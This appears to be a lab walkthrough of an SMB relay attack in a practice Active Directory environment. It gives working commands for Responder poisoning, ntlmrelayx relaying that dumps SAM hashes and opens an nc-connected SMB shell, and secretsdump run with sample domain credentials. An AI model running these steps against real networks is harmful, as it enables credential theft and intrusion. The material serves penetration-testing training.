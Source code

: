 
First of all we need to run our nmap scan, to check for the host with **SMB** signing disabled

![](https://i.imgur.com/MlaVrME.jpg)

Now we can save  the host that have the prompt **"message signing enabled but not required"** into a **targets.txt** file

![](https://i.imgur.com/vNu7Yc1.png)

Now we can disable the **HTTP** and **SMB** protocol in the responder.conf file, located under `/etc/responder/Responder.conf`

![](https://i.imgur.com/7mRX0rr.png)

We can then startup `responder` with the syntax used previously in **LLMNR Poisoning** `sudo responder -i wlan0 -dwPv` (v for verbose)

![](https://i.imgur.com/TaJpooZ.png)

Now we can startup the `ntlmrelayx.py` tool wit these syntax `ntlmrelayx.py -tf targets.txt -smb2support` , if you don't have it, you can download it from [here](https://github.com/fortra/impacket/blob/impacket_0_9_19/examples/ntlmrelayx.py) and move it to `/usr/bin` 

> If you are still having problem with ntlmrelayx not working, you can download this [tool](https://github.com/Dewalt-arch/pimpmykali) officially made by the TCM members to fix things

![](https://i.imgur.com/Rdh5Zvu.jpg)

The next thing is for our target, to create an event (We are gonna be utilizing **THE-PUNISHER** VM) , remember the `\\ATACKER-IP`

![](https://dimitrios-tsarouchas.tech/assets/img/DNS-failure-Wrong-address.png)

**SAM hashes have been dumped**
![Local-SAM-hashes-have-been-dumped](https://dimitrios-tsarouchas.tech/assets/img/Local-SAM-hashes-have-been-dumped.png)_Local SAM hashes have been dumped_

The authentication succeeded because SMB signing is enabled but not required and because “dtsarouchas” is the Administrator on this computer. Therefore, the SAM hashes were able to be dumped. Now the attacker can copy the SAM hashes, try cracking them offline and move laterally or vertically.

***

Same as we did in the previous section, we can simply get an interactive SMB shell by just adding a flag to ntlmrelayx command

```
impacket-ntlmrelayx -tf targets -smb2support -i
```

-i will give the interactive shell. After running the command, you will see an output like below

![](https://www.hackingloops.com/wp-content/uploads/2023/01/6-2-1024x407.png)

It has successfully exploited and started interactive SMB client shell via TCP on the specified port.

To access the shell, you can simply use `nc` to connect to the host and port using the following command

```
nc 127.0.0.1 11000
```

This will give you the SMB shell as below

![](https://www.hackingloops.com/wp-content/uploads/2023/01/7-2.png)

From here, you can interact using the shell and access the files and folders., for example to see the content of these shares we can say

```shell
sec-fortress@kali#~$ use C$
sec-fortress@kali#~$ use ADMIN$
sec-fortress@kali#~$ use IPC$
```

Then we can do `ls`

![](https://i.imgur.com/Q2m4kx2.png)

## **Dumping Hashes with Secretsdump.py**

**Note :** Make sure to disable/turn `Off` the **HTTP** and **SMB** protocol in the responder.conf file, located under `/etc/responder/Responder.conf`

## **Usage**


```powershell
# Dumping SAM hashes
# secretsdump.py <domain user>
$ secretsdump.py MARVEL.local/fcastle:Password1@192.168.0.132
```